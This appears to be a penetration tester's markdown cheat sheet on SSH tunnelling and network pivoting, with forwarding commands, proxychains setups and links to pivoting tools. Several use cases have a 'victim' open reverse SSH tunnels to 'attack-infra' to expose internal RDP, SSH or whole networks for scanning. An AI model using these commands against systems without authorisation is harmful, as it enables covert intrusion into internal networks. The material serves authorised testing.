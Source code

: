 
### misc

    https://marcusedmondson.com/2022/01/28/pivoting-with-ssh-tunnels-and-plink/
    https://github.com/opsdisk/the_cyber_plumbers_handbook

### local port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
    (exposes remote service <remote host>:<remote port> to local port via ssh tunnel)
    (connections made to <local port to listen> will be forwarded to <remote host>:<remote port>)

    # use case #1: prepare tunnel for attacking your victim
    pen-tester$ ssh user@attack-infra -L 1234:victim:80
    pen-tester$ curl http://127.0.0.1:1234

    # use case #2: attack victim's 445 port when access to it's sshd has been obtained
    attack-infra$ ssh user@victim -L 1234:127.0.0.1:445
    pen-tester$ nbtscan attack-infra:1234

### remote port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -R <remote port to bind>:<local host>:<local port>
    (exposes local serivce <local host>:<local port> on the remote host via ssh tunnel)
    (connections made to <remote port to bind> on remote host will be forwared to <local host>:<local port>)

    # use case #1: expose internal RDP service to outside of the intranet
    victim$ ssh user@attack-infra -p53 -R 1234:127.0.0.1:3389
    pen-tester$ rdesktop attack-infra:1234 

    # use case #2 (special case of #1): reverse SSH tunnel (from victim to attack-infra)
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts yes' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R 2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

    # use case #3 (the same as #2 but with additional IP access control) - didn't work for me
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts clientspecified' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R <pen-tester-ip>:2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

### dynamic port forwarding

Requires: `AllowTcpForwarding yes` on SSHD (default setting)

    ssh -D <local proxy host:port> -p <remote port> <target>

    # use case #1: create local socks4 proxy which will tunnel incoming traffic to victimDMZ
    ssh -D1234 -p22 user@victim

    # use case #2: reverse ssh from victim allows to scan whole internal network
    victim$ ssh -f -N -R 2222:127.0.0.1:22 root@attack-infra
    pen-tester$ ssh -f -N -D 127.0.0.1:8082 -p 2222 root@attack-infra
    pen-tester$ (add 'socks4 127.0.0.1 8082' to /etc/proxychains.conf)
    pen-tester$ proxychains nmap --top-ports=20 -sT -Pn <target> 

Wrapper to provide `ssh -D` functionality in cases when forwarding is disabled (`AllowTcpForwarding No`):

	https://github.com/TarlogicSecurity/SaSSHimi

### reverse SOCKS proxy

On Linux box (SSH’d to localhost with the -D option to get the SOCKS server running, then make a second connection to the Internet to port-forward access to the SOCKS service):

```
# (not verified solution yet):
ssh -D4321 user@127.0.0.1
ssh -N -P443 -i key.pem -R 1234:127.0.0.1:4321 user@external_attack_machine

# on 'external_attack_machine' use proxchains with following configuration:
socks5 127.0.0.1 1234
```

From Windows box (3rd party software needed to run SOCKS server):

    https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/

Possible alternative (no SSH used) solutions:

    https://github.com/klsecservices/rpivot
    https://github.com/sensepost/reGeorg

### SSH over SSL

    http://blog.chmd.fr/ssh-over-ssl-episode-2-replacing-proxytunnel-with-socat.html

### ssh over socks proxy

    $ ssh -i key.pem -o 'ProxyCommand=nc -X 5 -x proxy:1080 %h %p' user@host

### connect to host via other SSH jump box

Basic scenario:

    ssh -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host
    scp -r -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host:dir ./

Multiple SSH hops:

    ssh -i host-key.pem -J user1@hop1,user2@hop2 user@host
	scp -i host-key.pem -r -o 'ProxyJump user1@hop1,user2@hop2' user@host:dir ./

Multiple SSH hops each requiring different identity key:

```
eval `ssh-agent -s`
ssh-add -D
ssh-add key1.pem 
ssh-add key2.pem
ssh -i host-key.pem -Juser1@hop1,user2@hop2 user@host
```

### VPN over SSH

Requires modifications of sshd configuration, specifically:

```
PermitRootLogin yes
PermitTunnel yes # non-default setting
```

Run:

```
ssh username@server -w any:any
```

For detailed setup see: `https://artkond.com/2017/03/23/pivoting-guide/#vpn-over-ssh`.

### custom VPN solution over SSH

Poor's man VPN solution over SSH tunnel (no server-side modifications are needed):

    https://github.com/sshuttle/sshuttle

### mounting directories over SSH

    https://github.com/libfuse/sshfs

    # reverse directory mount (https://superuser.com/questions/616182/how-to-mount-local-directory-to-remote-like-sshfs/918708#918708):
    ncat -l -p 34567 -e "/usr/lib/ssh/sftp-server" & ssh -t -R 34568:localhost:34567 -i key.pem user@IP "sudo -E sshfs localhost: DIRNAME -o directport=34568; sudo -E bash"

### Metasploit via jump host

    https://www.ryanwendel.com/2020/02/02/forwarding-shells-through-a-jump-box-using-ssh/

### Other interesting


```
https://github.com/sshuttle/sshuttle
https://github.com/stealth/sshttp
# rescue when "ssh -D" is not supported by the sshd:
https://github.com/TarlogicSecurity/SaSSHimi
# blending your SSH traffic:
https://github.com/dsnezhkov/SSHoRTY
```

   

